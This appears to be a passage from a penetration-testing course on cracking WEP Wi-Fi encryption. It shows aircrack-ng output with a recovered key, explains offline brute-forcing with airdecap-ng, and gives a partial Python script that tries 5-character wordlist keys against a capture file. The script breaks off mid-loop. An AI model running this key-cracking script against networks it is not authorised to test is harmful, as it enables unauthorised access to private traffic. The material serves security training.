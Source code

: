 ```shell
   10    1/  1   01(   0) 02(   0) 03(   0) 04(   0) 05(   0) 06(   0) 07(   0) 08(   0)

             KEY FOUND! [ AB:C7:7F:3A:03:D0:AF:DA:F6:8D:A5:E2:C7 ]
	Decrypted correctly: 100%

```

* * *

### Bruteforce WEP cracking

When attempting to crack WEP encryption, attackers typically gather enough encrypted packets using tools like `airodump-ng` and then use `aircrack-ng` to successfully decipher the key. However, there are situations where the available packet count isn't sufficient for online cracking. In such cases, the attacker may switch to an offline approach, using `dictionary` or `brute-force` methods to try and break the key.

![image](https://academy.hackthebox.com/storage/modules/185/Airdecap/wep_original.png)

As shown in the above screenshot, we have captured a small amount of data using `airodump-ng`, which is not enough to generate sufficient IVs for cracking WEP encryption. To perform a brute-force attack, we can attempt to decrypt the packet using `airdecap-ng` with each password from the list. If a packet is successfully decrypted, it indicates that we have found the correct WEP key.

We can write a Python script that converts each 5-character password from the password list into its hexadecimal equivalent and then uses a loop to test each one with `airdecap-ng` to check if it successfully decrypts the traffic.

```python
import sys
import binascii
import re
from subprocess import Popen, PIPE
import time

# Start timer
start_time = time.time()

# File paths
cap_file = '/opt/WEP-01.cap'
wordlist_path = '/opt/1000000-password-seclists.txt'
wordlist = []

# Read wordlist file to a list
with open(wordlist_path, 'r') as f:
    wordlist = f.readlines()

# Iterate over the wordlist
for ln, word in enumerate(wordlist, start=1):
    # Clean the line to remove non-alphanumeric characters
    key = re.sub(r'\W+', '', word)

    # Filter wordlist to only keep 5-character long words
    if len(key) != 5 :
        continue

    # Encode the WEP key to bytes and convert to hexadecimal
    hex_key = binascii.hexlify(key.encode('utf-8'))

    # Print the current attempt
    print(f"{ln}: Trying Key: {key} Hex: {hex_key}")

    # Run airdecap-ng with the current WEP key
    p = Popen(['/usr/bin/airdecap-ng', '-w', hex_key, cap_file], stdout=PIPE)
    output = p.stdout.read().decode("utf-8")
```